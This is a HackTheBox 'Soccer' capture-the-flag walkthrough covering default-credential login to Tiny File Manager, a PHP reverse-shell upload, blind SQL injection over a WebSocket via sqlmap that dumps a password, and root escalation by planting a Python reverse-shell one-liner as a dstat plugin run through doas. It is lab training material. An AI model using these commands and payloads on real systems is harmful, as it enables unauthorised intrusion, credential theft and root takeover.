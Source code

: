 # HackTheBox
## Soccer

### URL: http://soccer.htb/


*Nmap* Scan

```shell 

PORT      STATE    SERVICE         VERSION
22/tcp    open     ssh             OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 ad0d84a3fdcc98a478fef94915dae16d (RSA)
|   256 dfd6a39f68269dfc7c6a0c29e961f00c (ECDSA)
|_  256 5797565def793c2fcbdb35fff17c615c (ED25519)
80/tcp    open     http            nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://soccer.htb/

9091/tcp  open     xmltec-xmlmail?


```


Found another entry using *gobuster dir*

```shell
http://soccer.htb/tiny/ // and it\'s runing Tinyfilemanager service

```

I was able to log in using `Tinyfilemanager` default cridintials

Now I can upload upload my php reverse-shell to `/tiny/uploads` because this is the only one that have write permissions

and `Boom` I got shell

found unpermmited user.txt in `/home/player/`


Found another domain in `/etc/hosts`

`soc-player.soccer.htb`


SignUp and login 

view page source in /check  and

found WebSocket request to `ws://soc-player.soccer.htb:9091`


Because *sqlmap* needs to send request and check response and websockets not offering that

I used a middlware script from https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html
and changed url and data to take `{"id": msg}` 

Now I can pass this middlware server to *sqlmap* like this

```shell
sqlmap -u http://localhost:3000/?id=1 -p id --batch

Parameter: id (GET)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1 AND (SELECT 9421 FROM (SELECT(SLEEP(5)))qoOs)


```


Now it's time to extract some creds from this database

```shell

sqlmap -u http://localhost:3000/?id=1 -p id --risk 3 --level 5  --batch -D soccer_db -T accounts --dump 


+---------+-------------------+----------------------+----------+
| id      | email             | password             | username |
+---------+-------------------+----------------------+----------+
| 1324    | player@player.htb | PlayerOftheMatch2022 | player   |
| <blank> | <blank>           | <blank>              | <blank>  |
+---------+-------------------+----------------------+----------+


```

I got this password

`PlayerOftheMatch2022`

now we can ssh to this machine as `player` user


```shell

ssh player@soc-player.soccer.htb

```
And here we are

```shell
player@soccer:~$

```


Running *Linpeas.sh* found that dstat runing as root with nopassword using doas(e.g doas is similar sudo)
```shell
╔══════════╣ Checking doas.conf
permit nopass player as root cmd /usr/bin/dstat
```
reading the dstat manual found that I can execute external plugins using --<plugin-name> flag

after reading `dstat` source code found that it has tow paths to access plugins from

`/usr/share/dstat/` but only root  can write here
`/usr/local/share/dstat/` so this one looks promising 


So inside of `/usr/local/share/dstat/` I created a fake plugin called `dstat_shell.py` (it should start with `dstat` prefix this is how `dstat` command can access it)

and put this python reverse shell

```py
#! /usr/bin/python3


import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<YOUR IP>",1998));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/sh")

```

And in my machine start listning on port 1998

```shell
nc -lnvp 1998
```

And in soccer machine excuted this command

```shell

doas -u root /usr/bin/dstat --shell # --shell = --<plugin-name>

```


And I got a shell

```shell

listening on [any] 1998 ...
connect to [10.10.14.161] from (UNKNOWN) [10.10.11.194] 50998
# id
id
uid=0(root) gid=0(root) groups=0(root)


```

And I'm root

I got the root flag